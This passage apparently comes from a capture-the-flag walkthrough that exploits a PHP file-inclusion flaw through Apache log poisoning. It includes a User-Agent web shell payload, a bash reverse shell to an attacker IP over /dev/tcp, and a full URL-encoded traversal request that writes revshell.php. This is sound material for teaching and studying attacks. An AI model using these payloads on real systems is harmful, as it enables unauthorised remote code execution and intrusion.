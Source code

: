 And yes, we can confirm that the `User-Agent` is being written to the log. For example:

```log
10.6.90.119 - - [27/Sep/2023:11:12:49 +0000] "GET /dogs/8.jpg HTTP/1.1" 200 52967 "http://10.10.251.122/?view=dog" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"
```

**Putting this all together**, that means that we should be able to set our `User-Agent` to some PHP code. If there is not any "input validation", then we could have this PHP page execute our PHP code, and then put the results in this log file, where we are currently seeing the `User-Agent`

## PHASE 3: Gaining Access & Exploitation

It seems we might have an entry point. We can view files on the server, and we have this potential for **Log Injection** where we could potentially run arbitrary PHP code - AKA **Remote Code Execution (RCE)**.

### Option 1: Executing query string `cmd`, as our `User-Agent`

This kill chain consists of:

1. Set the `User-Agent` to be: `<?php system($_GET['cmd']);?>` (or `exec` or `shell_exec`, etc.)
2. Set a query string argument like: `cmd=ls`

The idea here is that you can URL-encode a command or series of commands in the `cmd` query string parameter, and it will be executed when the Apache server goes to get the `User-Agent` of the caller, incidentally runs our code, and then injects the output (if any) as the `User-Agent` field in the `/var/log/apache2/access.log`

Between special characters (e.g. `'"()$>|`, etc) and then URL-encoding the command (which you can easily do via [CyberChef](https://gchq.github.io/CyberChef/)), something wasn't quite working. I had a difficult time executing complex commands such as echoing out a PHP reverse shell into a file. For example this one-liner reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'"); ?>
```

Would need to be written to a file on the server (`revshell.php`), and so we need to "escape" the double-quotes, and we now also have a greater-than sign, which is a special character in HTML also:

```bash
echo "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'\"); ?>" > revshell.php
```

So finally, we URL-encode all of that and hope is decodes correctly on the other side:

```urlencoded
echo%20%22%3C?php%20exec(%5C%22/bin/bash%20-c%20'bash%20-i%20%3E%20/dev/tcp/10.0.0.10/1234%200%3E&1'%5C%22);%20?%3E%22%20%3E%20revshell.php
```

Meaning that this URL-encoded string above is what would be passed in the `cmd` query string, making the full URL something like:

```text
/?view=./dog/../../../../var/log/apache2/access.log&ext&cmd=echo%20%22%3C?php%20exec(%5C%22/bin/bash%20-c%20'bash%20-i%20%3E%20/dev/tcp/10.0.0.10/1234%200%3E&1'%5C%22);%20?%3E%22%20%3E%20revshell.php
```
